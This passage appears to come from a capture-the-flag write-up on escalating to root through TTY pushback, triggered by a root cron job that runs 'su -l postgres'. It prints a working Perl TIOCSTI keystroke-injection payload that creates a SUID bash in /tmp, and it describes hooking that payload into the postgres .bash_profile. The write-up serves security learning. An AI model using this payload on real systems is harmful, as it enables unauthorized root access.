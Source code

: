 It turned out the  `su -l postgres` command which is executed every 60 seconds by root was vulnerable to an exploit which dates back to the year 2005. From my understanding TTY pushback is when a higher privileged user uses the `su` command to switch to a lower privileged user and if a script is executed afterwards its possible to background the terminal session of the lower privileged user, bringing the higher privileged users terminal session into the foreground. Then it sends input into the higher privileged terminal to execute commands.

(The level of privilege a user has should not impact the results of the exploit.)

Since 2016 `ioctl` has been changed to protect against this attack. Further protective measures were added in the 6.2 Linux kernel.

```
dev.tty.ldisc_autoload=0
```

`This restricts loading TTY line disciplines to the CAP_SYS_MODULE capability to prevent unprivileged attackers from loading vulnerable line disciplines with the TIOCSETD ioctl, which has been abused in a number of exploits before.`

#### Checking if TTY pushback is possible
It appears the protective measures which stop the attack are disabled as shown below.

```
wesley@download:/tmp$ sysctl -a 2>/dev/null | grep -i dev.tty.ldisc_autoload
dev.tty.ldisc_autoload = 1
```

#### Finding a payload
Source: https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking

There various payloads on GitHub and blog posts. I had no luck with the payloads written in C and Python. The below Perl payload produced the best results when testing. 

```perl
#!/usr/bin/perl
require "sys/ioctl.ph";
open my $tty_fh, '<', '/dev/tty' or die $!;
foreach my $c (split //, "exit\n".'echo Payload as $(cp /bin/bash /tmp/bash && chmod u+s /tmp/bash)'.$/) {
    ioctl($tty_fh, &TIOCSTI, $c);
}
```

#### Deploying the payload
For this payload to work it needs to be executed automatically after root logins in as the postgres user. To accomplish this task I will take advantage of the write permissions the postgres download user has to modify the postgres `.bash_profile`. When the root user logins in as postgres the system will automatically execute commands within the bash profile and deploy the payload.

Additional note: In a previous stage I modified .bash_profile to gain a shell as the postgres user and could not find a use for it at that time.

The below command modifies the `.bash_profile` with `perl /home/wesley/exploit.pl`. This will execute the `exploit.pl` file when the postgres user logs in. The `exploit.pl` file contains the TTY pushback payload and has been granted executable permissions for good measure.
